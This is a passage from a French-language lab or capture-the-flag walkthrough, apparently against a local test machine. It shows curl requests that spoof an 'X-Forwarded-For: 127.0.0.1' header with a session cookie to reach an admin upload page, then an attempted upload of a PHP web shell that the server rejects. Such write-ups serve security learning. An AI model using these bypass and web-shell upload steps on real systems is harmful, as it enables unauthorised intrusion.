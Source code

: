 Puis, je me suis dirigé vers la page d'upload, en prenant soit le passer le cookie obtenu :

```console
$ curl -D- http://192.168.56.112/adminstration/upload/ -H "X-Forwarded-For: 127.0.0.1" -H "Cookie: PHPSESSID=8gklhf94h9uidgfpb2q97uncu2;"
HTTP/1.1 200 OK
Date: Thu, 26 Jun 2025 14:00:08 GMT
Server: Apache/2.4.10 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.29
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 2993
Content-Type: text/html

<!DOCTYPE html>
<html lang="en">
<head>
--- snip ---
<div class="container-fluid mt-5">
      <h1 class="mt-4">Upload File</h1>
       <form action="" method="post" enctype="multipart/form-data">
              <div class="form-group ml-5 mt-5">
                <label for="document"> Your document</label>
                <input type="file" name="document"> </br>
                <input type="submit" name="submit" value="Send" class="btn btn-primary">       
          </div>
         
        </form>
     </div>
    <!-- /#page-content-wrapper -->
 </div>

  </body>
```

Bien sûr, je m'attendais à quelques vérifications sur le fichier uploadé ; c'était le cas :

```console
$ curl -D- http://192.168.56.112/adminstration/upload/ -H "X-Forwarded-For: 127.0.0.1" -H "Cookie: PHPSESSID=8gklhf94h9uidgfpb2q97uncu2;" -X POST -F "document=@/tmp/shell.php" -F "submit=Send"
HTTP/1.1 200 OK
Date: Thu, 26 Jun 2025 14:04:10 GMT
Server: Apache/2.4.10 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.29
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 3007
Content-Type: text/html

file not allow
```
